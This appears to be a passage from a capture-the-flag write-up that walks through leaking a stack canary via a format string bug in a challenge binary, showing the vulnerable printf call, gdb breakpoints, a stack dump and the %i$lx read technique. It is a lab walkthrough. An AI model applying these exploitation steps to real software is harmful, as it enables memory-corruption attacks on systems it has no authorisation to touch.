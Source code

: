 ### Via Format String / BOF

There’s nothing here I haven’t shown many times before, but I’ll give a quick walkthrough as it is the intended way.

#### Leak Canary

In `main`, there’s a format string vuln, where the user input name is printed as the first argument to `printf`:

```

  printf("Enter password for ");
  printf(entered_username,0x10);

```

That `printf` call takes place at the 0x40229c. The stack canary is set at 0x402202. I’ll break at both of those in `gdb`:

```

gdb-peda$ b *0x402202
Breakpoint 1 at 0x402202
gdb-peda$ b *0x40229c
Breakpoint 2 at 0x40229c 

```

I’ll run to the first break, and then step to see the canary get set in RAX and then pushed to the stack. In this run, its set as:

```

RAX: 0xa70f7a4603600e00 

```

I’ll run to the next break, putting in whatever as a username. When it gets there, I’ll look at the stack:

```

gdb-peda$ x/16g $rsp
0x7fffffffda80: 0x0000786c24353125      0x0000000000000002
0x7fffffffda90: 0x00000000004c00e0      0x000000000040339c
0x7fffffffdaa0: 0x00007fffffffdc08      0x0000000000400518
0x7fffffffdab0: 0x0000000000403320      0x00000000004033c0
0x7fffffffdac0: 0x0000000000000000      0xa70f7a4603600e00
0x7fffffffdad0: 0x0000000000403320      0x0000000000402b50
0x7fffffffdae0: 0x0000000000000000      0x0000000100000000
0x7fffffffdaf0: 0x00007fffffffdc08      0x00000000004021ed

```

The space for input is small, but I can read the i-th word on the stack with `%i$lx`, where `i` is a number.
